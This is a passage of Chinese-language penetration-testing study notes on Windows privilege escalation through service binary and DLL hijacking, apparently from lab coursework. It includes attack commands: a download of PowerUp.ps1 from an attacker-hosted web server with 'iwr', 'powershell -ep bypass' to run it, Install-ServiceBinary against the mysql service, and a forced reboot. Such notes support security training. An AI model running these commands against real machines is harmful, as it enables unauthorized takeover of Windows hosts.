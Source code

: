 重启服务

```armasm
net stop mysql
```

如果没有权限，可以看看服务是不是开机自启，如果是就看看是不是可以重启机器

```armasm
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
whoami /priv
有SeShutdownPrivilege就可以重启

shutdown /r /t 0

重启后查看用户
Get-LocalGroupMember administrators
```

也可以使用自动化工具PowerUp.ps1

```armasm
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80

iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
Install-ServiceBinary -Name 'mysql'
```

报错，有时不能盲目相信自动化工具，需要手动利用。

### 16.2.2 服务DLL劫持

枚举服务

```armasm
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

查看二进制文件权限

```armasm
icacls .\Documents\BetaServ.exe
```

可读可执行，不能替换，使用Procmon64.exe查看进程调用dll情况

点击Filter添加过滤规则

```armasm
Process Name is BetaServ.exe 
```

然后重启服务

